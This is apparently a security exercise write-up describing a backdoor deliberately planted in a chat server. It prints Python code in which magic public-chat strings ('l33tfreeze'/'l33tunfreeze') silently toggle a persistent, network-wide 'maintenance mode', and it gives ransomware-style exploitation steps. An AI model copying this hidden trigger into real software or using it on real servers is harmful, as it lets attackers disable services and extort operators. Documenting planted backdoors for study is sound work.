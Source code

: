# Backdoor 2: Covert Control Mechanism (Potential Ransomware Vector)

## Description

This backdoor implements a covert distributed control mechanism disguised as a maintenance mode feature. While it appears to be a legitimate administrative tool, it's actually designed to allow an administrator (or any user who knows the commands) to control other servers for their own gain. It could potentially be exploited in a ransomware-like attack, enabling the disruption of services across multiple servers and the ability to demand payment for restoration.

## Technical Details

The backdoor is implemented within the `handle_public_chat` function of the server. It checks for specific command strings in public chat messages:

```python
async def handle_public_chat(self, message_dict, from_client):
    data = message_dict.get('data', {})
    message_content = data.get('message', '')

    if not from_client:
        # Message is from another server
        if message_content == 'l33tfreeze':
            self.maintenance_mode = True
            self.save_maintenance_mode()
            return
        elif message_content == 'l33tunfreeze':
            self.maintenance_mode = False
            self.save_maintenance_mode()
            return
        else:
            # Deliver to clients on this server
            await self.deliver_message_to_clients(message_dict)
            return
    else:
        # Message is from a client
        # Deliver to clients on this server
        await self.deliver_message_to_clients(message_dict)
        # Forward to all other servers
        message_json = json.dumps(message_dict)
        for server_address, websocket in self.servers.items():
            if server_address != self.address:
                try:
                    await websocket.send(message_json)
                    logger.info(f"Forwarded public chat to server {server_address}.")
                except Exception as e:
                    logger.error(f"Error forwarding public chat to server {server_address}: {e}")
```

When 'maintenance mode' is activated:

- Most server functionalities are restricted
- File operations return a specific error message: "all your server are belong to us"
- Only public chat messages are allowed to pass through

The maintenance mode state is propagated to all connected servers, potentially affecting the entire network. Crucially, this state is saved inside the server's volume, meaning it persists even if the server is restarted, allowing for long-term control.

## Objectives

This backdoor violates several key security principles:

1. Authorization: Allows any user with knowledge of the commands to control critical server states without proper authentication.
2. Availability: Can be used to disrupt normal server operations across multiple servers.
3. Integrity: Modifies server behavior without proper controls or audit trails.
4. Confidentiality: The presence of this backdoor is hidden from regular users and administrators.
5. Non-repudiation: The attacker can deny involvement as the commands look like regular chat messages.

## Exploitation Method (Proof of Concept)

1. Attacker joins the public chat as a regular user.
2. To activate 'maintenance mode' across all servers, attacker sends the following message in public chat:
   ```
   l33tfreeze
   ```
3. The command propagates to all connected servers, potentially disrupting the entire network.
4. Attacker could then demand payment (through public chat or other means) for service restoration.
5. To deactivate 'maintenance mode', attacker sends:
   ```
   l33tunfreeze
   ```
6. The server processes these commands silently, without notifying other users.
7. File downloads / uploads are disabled, clients can no longer see other clients or create private messages

![Image 2.1](appendix/Image%202.1.png)

<p align="center"><em>Figure 2.1: Client 2 attempts to send a private message but can't because it's server has been compromised!</em></p>

![Image 2.2](appendix/Image%202.2.png)

<p align="center"><em>Figure 2.2: Attackers have left a message to their victims</em></p>

## Detection Challenges

- The backdoor is disguised as a legitimate maintenance mode feature, making it appear as a normal administrative tool.
- It's hidden within the public chat handling function, blending in with normal message processing.
- The activation/deactivation commands look like innocuous chat messages.
- No special permissions are required to use these commands, making it difficult to trace the source.
- The maintenance mode state is saved persistently in the server's volume, allowing the effect to persist across server restarts. This makes it harder to detect and remove.
- There's no visible indication to users that the server has entered or exited 'maintenance mode', except for restricted functionality.
